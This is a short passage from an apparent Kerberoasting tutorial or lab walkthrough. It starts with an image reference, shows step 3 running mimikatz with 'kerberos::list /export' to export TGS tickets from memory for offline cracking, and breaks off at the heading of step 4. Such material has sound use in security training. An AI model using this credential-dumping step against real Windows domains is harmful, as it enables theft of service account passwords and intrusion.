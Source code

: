 
3. **Extract the Ticket:**

```powershell
PS C:\Users\<USERNAME>\Downloads\kerberoast-master> C:\Users\<USERNAME>\Downloads\mimikatz_trunk\x64\mimikatz.exe
mimikatz # kerberos::list /export
```

* Extract the TGS ticket from memory for offline cracking.

![Ticket Extraction](/assets/image-11.png)

4. **Verify Extracted Tickets:**
